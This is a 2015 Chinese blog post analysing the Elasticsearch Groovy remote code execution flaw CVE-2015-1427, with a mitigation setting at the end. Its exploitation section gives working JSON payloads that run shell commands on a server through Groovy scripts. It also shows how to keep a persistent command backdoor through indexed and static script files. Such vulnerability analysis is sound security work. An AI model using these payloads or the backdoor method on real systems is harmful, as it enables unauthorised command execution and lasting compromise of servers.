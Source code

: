 ```yaml
---
layout: post
title: "ElasticSearch 远程代码执行漏洞分析（CVE-2015-1427）&amp;高级利用方法"
date: 2015-03-06 19:30:55 +0800
author: tang3
comments: true
categories: "技术"
tags: [ElasticSearch,Expression Language]
---
```


### 0x00 漏洞概述

我第一次知道CVE-2015-1427这个漏洞是在2月13日（春节放假前一天），但是当时想着过年，而且觉得应该是Groovy自身的问题，就也没太在意。知道前两天兰少（lupin）问我有没有看这个漏洞，说他找到了绕过了沙盒的方法，才跑去看。

我跟lupin玩这个洞的思路不太一样，而且漏洞原理在他的文章里已经说的很清楚了，我这篇文章主要侧重这个漏洞利用的各种玩法。

<!-- more -->

### 0x01 漏洞原理

漏洞原因很简单，由于沙盒代码黑名单中的Java危险方法不全，从而导致恶意用户仍可以使用反射的方法来执行Java代码。这就完了？当然不是！由于Elasticsearch开发团队没有完全认知Groovy的强大，以为仅仅防止用户调用Java反射就可以免于被攻击，这真是太好笑了，我们来看下Groovy对自己的描述：

![groovy](/assets/images/2015-03/groovy.png)

没错！Groovy是一款开发语言，这意味着我们完全可以在不使用Java的前提下实现代码执行。如果仅仅是沙盒的问题，那么修补黑白名单到攻击者没办法绕过沙盒使用Java反射就好了，但是一种语言要怎么靠黑白名单来限制它的绝大部分功能？所以没有把Groovy当做一种编程语言是这问题的真正原因。

### 0x02 漏洞利用

漏洞利用其实也很简单，我们只需要参照官方提供的script使用说明来执行脚本就可以了。[官方文档](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html)提供了两个方法让我们直接执行脚本代码。

我们先来看第一种方式——直接执行脚本，这种方式也就是目前大家都在使用的方式。使用起来也很简单，直接向/_search这个URL提供如下POST内容：

```groovy
{"script_fields": {"my_field": {"script": "def command=\"netstat -an\";def res=command.execute().text;res","lang":"groovy"}}}
```

效果如下图所示：

![script](/assets/images/2015-03/script.png)

官方文档除了直接执行脚本，还提供了一种预先存储脚本用于以后执行的方式——脚本索引，这种方法使用起来比较繁琐，下面我们先来看官方提供的示例：

```
//建立脚本索引
curl -XPOST localhost:9200/_scripts/groovy/indexedCalculateScore -d '{
     "script": "log(_score * 2) + my_modifier"
}'
//使用脚本索引，并执行脚本索引中的代码
curl -XPOST localhost:9200/_search -d '{
  "query": {
    "function_score": {
      "query": {
        "match": {
          "body": "foo"
        }
      },
      "functions": [
        {
          "script_score": {
            "script_id": "indexedCalculateScore",
            "lang" : "groovy",
            "params": {
              "my_modifier": 8
            }
          }
        }
      ]
    }
  }
}'
```

下面我们来看实际操作，首先是建立脚本索引：

```json
{
     "script": "def command=\"netstat -an\";def res=command.execute().text;res"
}
```

然后是执行刚刚建立的脚本索引，由于官方给的示例中不可以返回字符串，所以这里我修改了POST提交的内容。

```json
{
    "query" : {
       "match_all":{
        }
    },
    "script_fields" : {
        "test1" : {
            "script_id" : "indexedCalculateScore",
            "lang":"groovy"
        }
    }
}
```

这种方法相比较直接执行脚本多了一个存储的步骤，但是却不失为一种留后门的好方法。如果我们这样建立一条脚本索引：

```json
{
     "script": "def res=command.execute().text;res"
}
```

然后这样执行它：

```json
{
    "query" : {
       "match_all":{
        }
    },
    "script_fields" : {
        "test1" : {
            "script_id" : "indexedCalculateScore",
            "lang":"groovy",
            "params":{
                 "command":"netstat -an"
             }
        }
    }
}
```

完美的一个shell命令后门就完成了，效果如下图所示：

![indexed-script](/assets/images/2015-03/indexed-script.png)

不过使用脚本索引建立的后门有一个问题，就是需要在动态脚本开启的状态下。而官方提供给我们的最后一个调用脚本的方式——调用静态脚本，刚刚好可以帮助我们维持后门的持久性。

使用方法如下：在config目录下建立一个名为scripts的目录，把脚本文件放进去，然后用script_file替换上面的script_id字段就好了。这里做一个简单的例子，在scripts里放上我们刚才的的那个shell后门的代码，并命名为vul.groovy，然后POST如下数据进行搜索：

```json
{
    "script_fields": {
        "my_field": {
            "file": "vul",
            "params": {
                  "command":"netstat -an"
            }
        }
    }
}
```

如果你足够仔细的话，可能会发现上面的代码中我使用的file而不是官方示例的script_file，因为我测试环境是1.3.5和1.4.10，而官方所提供的示例应该是针对MVEL表达式时代的静态表达式使用方法，所以有些时候不看代码是无法发现真相的→_→。

### 0x03 思维壁垒

在和lupin一开始讨论这个漏洞的时候，发现我们思考的方式完全不一样。他在跟我说怎么怎么绕过沙盒，而我却不断的问他沙盒在哪里？为什么我没有感觉到沙盒的存在？从lupin[这篇文章](http://drops.wooyun.org/papers/5107)描述的细节和下面官方对这个漏洞描述的内容以及官方对于漏洞的后期修复，再到这两天的全民反射来看，大家明显是都被带到沟里去了，把一个好好的代码执行漏洞玩成了命令执行漏洞。

> The vulnerabilities allow an attacker to construct Groovy scripts that escape the sandbox and execute shell commands as the user running the Elasticsearch Java VM.

如果让我用一句话来评论目前的大家使用的PoC的话，“用C的方式来利用一个PHP代码执行”，这句话再合适不过了。我在[《一种新的攻击方法——Java-Web-Expression-Language-Injection》][]中提到的JELI的这种漏洞形式（或者说攻击方法），是由于开发者对于Java上层建筑的表达式认知度不够而导致漏洞的出现。Struts2没有想到Ognl可以执行Java代码，Elasticsearch同样没有想到Groovy可以实现任意Java功能。

所以在这里我觉得有必要提醒大家一下，小心思维壁垒的出现。

### 0x04 漏洞总结

#### 漏洞小结

1. 影响范围个人评价为“高”，ElasticSearch在大数据时代得到广泛的使用，而且此漏洞覆盖十个左右的版本，所以影响范围还是很广的。

2. 危害性个人评价为“极高”，此漏洞值需要使用默认的动态脚本配置便可被利用，攻击者可以利用这个漏洞getshell。


#### 防护方案

关闭groovy沙盒以已停止动态脚本的使用：

```yml
script.groovy.sandbox.enabled: false
```

官方已经在最新版本中修复此问题，最新版下载链接为：
http://www.elasticsearch.org/overview/elkdownloads/



[《一种新的攻击方法——Java-Web-Expression-Language-Injection》]:http://drops.wooyun.org/tips/2494
